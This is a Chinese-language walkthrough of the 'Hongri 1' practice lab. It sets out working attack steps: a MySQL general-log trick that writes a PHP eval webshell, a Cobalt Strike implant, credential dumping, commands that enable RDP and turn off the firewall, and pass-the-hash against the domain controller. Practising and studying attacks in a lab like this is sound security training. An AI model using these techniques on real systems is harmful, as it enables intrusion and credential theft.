 ## 红日1
### win7 外网
`192.168.36.135`192.168.36.135
nmap扫端口
```text
Nmap scan report for 192.168.36.135
Host is up (0.00019s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1057/tcp open  startron
3306/tcp open  mysql
```

dirb扫描到phpmyadmin,看到yxcms里有admin的密码,解出来得到`949ba59abbe56e05`

执行sql语句无法直接写入文件,采用日志文件getshell
(1) 开启日志记录:

set global general_log = "ON";
(2) 查看当前的日志目录:

show variables like 'general%';
(3) 指定日志文件

set global general_log_file = "C:/phpStudy/WWW/a.php";
(4)) 写入执行代码：

select "<?php eval($_POST['cmd']); ?>";

成功getshell
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318222743.png)

使用powershell反弹一个shell回来,使用cs生成木马并使用蚁剑上传到靶机上

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318225002.png)
成功上线cs

`logonpasswords`抓取密码

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319113159.png)

```bash
#注册表开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

#添加防火墙规则
netsh advfirewall firewall add rule name="Open 3389" dir=in action=allow protocol=TCP localport=3389

#关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后
```
### win2003
`192.168.52.141`
使用cs派生一个会话到msf上
1. cs添加一个listener
2. msf开启监听
3. cs新建会话选择listener即可

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319113551.png)
扫描端口
开启了445,尝试利用永恒之蓝,但是dc和这台都没成功
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319114320.png)


### win2008(dc)
`192.168.52.138`
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319113713.png)


使用hash传递攻击,成功拿下域控
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319115000.png)

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319114954.png)
